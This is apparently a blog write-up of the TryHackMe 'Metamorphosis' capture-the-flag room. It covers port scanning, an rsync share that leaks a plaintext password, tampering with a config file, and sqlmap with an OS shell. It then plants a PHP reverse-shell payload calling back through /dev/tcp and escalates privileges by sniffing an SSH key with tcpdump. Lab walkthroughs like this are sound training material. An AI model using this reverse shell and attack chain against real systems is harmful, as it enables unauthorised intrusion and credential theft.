 ```yaml
---
title: "Tryhackme Metamorphosis"
date: 2021-08-16T15:55:27+05:30
draft: true
toc: true
image: "images/github-pagesLightBlue.jpeg"
tags: ["blog", "GitHub Pages"]
categories: ["blog"]
---
```


## Overview
<img style="border:2px solid black" src="/images/metamorphosis.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

## Recon

### Nmap 

```bash
root@kali:~/tryhackme/metamorphosis#nmap -sC -sV  10.10.97.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:32 IST
Nmap scan report for 10.10.97.133 (10.10.97.133)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 13s, deviation: 0s, median: 13s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-12T06:03:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T06:03:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

```

### Gobuster

```bash

root@kali:~/tryhackme/metamorphosis/conf#gobuster dir -u 10.10.97.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.97.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/08/12 11:04:29 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 10818]
/admin                (Status: 301) [Size: 312] [--> http://10.10.97.133/admin/]
/inde.html            (Status: 200) [Size: 10918]                               
Progress: 56672 / 882244 (6.42%)               

```

### Visting Webpage

<img style="border:2px solid black" src="/images/forbidden.png" align="left"><br><br><br><br><br><br><br>


Viewing `source code` 

<img style="border:2px solid black" src="/images/sourcecode.png" align="left"><br><br><br><br>


## Rsync Enumeration

We have port 873 running which is `Rsync` you can read more about this here [hacktricks.xyz/pentesting/873-pentesting-rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
rsync -rdt rsync://10.10.38.244:873

we get | Conf            All Confs |

```

Listing content of `Conf`

```bash

rsync -rdt rsync://10.10.38.244:873/Conf
drwxrwxrwx          4,096 2021/04/11 01:33:08 .
-rw-r--r--          4,620 2021/04/10 01:31:22 access.conf
-rw-r--r--          1,341 2021/04/10 01:26:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 01:32:24 debconf.conf
-rw-r--r--            332 2021/04/10 01:31:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 01:51:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 01:28:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 01:26:56 php.ini
-rw-r--r--            320 2021/04/10 01:33:16 ports.conf
-rw-r--r--            589 2021/04/10 01:31:07 resolv.conf
-rw-r--r--             29 2021/04/10 01:32:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 01:30:59 smb.conf
-rw-rw-r--             72 2021/04/11 01:33:06 webapp.ini

```
Downloading `Conf files` into local machine


```bash
rsync -av rsync://10.10.38.244:873/Conf ./conf

```

Reading all the files we got webapp.ini file 

```bash

cat webapp.ini 
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
````

The env variable is set to `prod` ... change this to `dev` (for development) and upload back new `webapp.ini` file to `server`.

```bash

rsync -av webapp.ini rsync://10.10.101.93:873/Conf/webapp.ini  

```

Going to the admin page again  `http://10.10.101.93/admin/`


<img style="border:2px solid black" src="/images/2.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>
 
Use `brupsuite` and save the request as `req.txt` file

## SQLmap

```bash
sqlmap -r req.txt --level 3 --risk 3 --batch --os-shell

```
<img style="border:2px solid black" src="/images/sqloutput.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>


## Getting Reverse Shell

Using curl to upload the `Shell.php`

```bash
root@kali:~/tryhackme/metamorphosis#cat shell.php

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/your IP/1234 0>&1'");
```
In `Os-shell`

```bash
curl http://your IP/shell.php -o shell.php
```

access the shell.php in browser using `http://10.10.101.93/shell.php/`

and ` nc -lnvp 1234 ` in other terminal 

Get the `Rev shell` and `Upgrade`.

<img style="border:2px solid black" src="/images/revshell.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
  
Getting  `User.txt`

<img style="border:2px solid black" src="/images/user_txt.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>
 
## Privilege Escalation

Running `linpeas` we get that user can run `Tcpdump`

Running `Pspy64` we get

<img style="border:2px solid black" src="/images/pspyoutput.png" align="left"><br><br><br><br><br><br>

Now finally run tcpdump in `/var/www/html` and Get the output using `Wget`

<img style="border:2px solid black" src="/images/tcpdump.png" align="left"><br><br><br><br><br><br><br>

In Attakcer Machine run `wget http://10.10.101.93/1.pcap`

Open 1.pcap file in `Wireshark`

Follow `Tcp Stream` and Get `SSH Key`

<img style="border:2px solid black" src="/images/sshkey1.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

`Log in` with key and get `root.txt`

<img style="border:2px solid black" src="/images/root.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>


